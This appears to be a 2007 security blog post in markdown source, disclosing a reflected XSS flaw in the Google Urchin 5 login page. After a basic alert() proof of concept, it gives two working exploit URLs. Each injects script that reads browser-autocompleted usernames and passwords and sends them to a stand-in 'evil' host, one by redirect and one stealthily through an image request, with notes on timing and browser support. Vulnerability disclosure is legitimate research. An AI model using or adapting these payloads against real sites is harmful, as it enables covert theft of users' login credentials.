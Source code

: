 ```yaml
---
title: Google Urchin Password Theft Madness
author: pagvac
date: Mon, 24 Sep 2007 14:14:49 GMT
template: post.jade
category: fucked
---
```


There is a trivially exploitable XSS vul on [Google Urchin Web Analytics 5](http://www.google.com/search?q=intext%3A%22Urchin+Web+Analytics+v5%22)'s login page. The vulnerability has been tested on versions `5.6.00r2`, `5.7.01`, `5.7.02` and `5.7.03` (latest). Previous versions are most likely to be affected as well. In case you didn't know, [Google Urchin](http://www.google.com/analytics/urchin_downloads.html) is the **install** version of Google Analytics.

I reported the issue to Google back on Jul 25 and was confirmed by their security team. They are now working on a fix. My original plan was to publish this info after a fix would be released. However, the issue [has also been found](http://ha.ckers.org/blog/20070823/xss-and-possible-information-disclosure-in-urchin/) by other folks about a month ago. As usual, the researcher loses credit when following the responsible disclosure route. Here is the boring POC:

	http://target/session.cgi?"><script>alert('XSS')</script><!--

You might have heard before that a XSS vulnerability on a login page is nasty. However most people think that the worst thing you can do is inject a form in order to perform a phishing attack. Although it's true this is a good example of what you can do, we can also do more advanced XSS phishing attacks that are even harder to detect. My two favorite tricks when finding a XSS vul on a login page are:

* **Overwriting** the login form's `action` attribute so that the victim's username and password are stolen when clicking on Login
* **Stealing** autocomplete data so that victim username and password are stolen _by simply clicking on our exploit URL_ (juicy!)

    Anyway, let's get to the point. I know that you're sick of XSS PoCs that only open alert boxes. So here is a exploit URL that will steal the victim's username and password by simply clicking on it. The only requirement is that the victim is using the "autocomplete passwords" feature, aka "Remember passwords for sites":

    http://target/session.cgi?"></form><script>setTimeout("location%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

    Using `location` is great for redirecting information to third-party sites. The problem is that the current window will change to show the evil site. Although this is great for demo purposes, it sucks when it comes to being stealth, since the victim can actually see his/her credentials being sent to another website on the address bar. Instead, we can dynamically create an image with JavaScript so _the credentials are stolen in the background:_

    http://target/session.cgi?"></form><script>h%3dnew%20Image();setTimeout("h.src%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

The following video shows the previous exploit in action. I don't think the quality of the video is that good, but oh well. Basically what it shows is how after visiting the exploit URL, the username and password are sent to google.com in the background. I use Paros in the video to demonstrate that the credentials do indeed get sent to google.com.

<iframe class="video" src="//www.youtube.com/embed/wCUovL9WLVQ" frameborder="0" allowfullscreen></iframe>

If you look at the code, you'll notice that we wait 1.5 secs using the _setTimeout()_ function before forwarding the credentials to the evil site. The reason for this is because we need to let the browser auto-complete the fields before performing the redirect. Otherwise the value of the username and password field would be blank by the time we steal them. 

_The PoC has been tested on the latest version of FF (2.0.0.7 at time of writing) and does _not_ work on IE 7, but _might_ work on IE 6. This doesn't mean you cannot do a auto-complete password theft attack on IE 7, it just needs a bit of more work! If you want to know the reason behind this difference is that IE 7 requires the user to first type or choose the username from the auto-complete drop-down menu, <em>before_ the password field is automatically filled.</em>
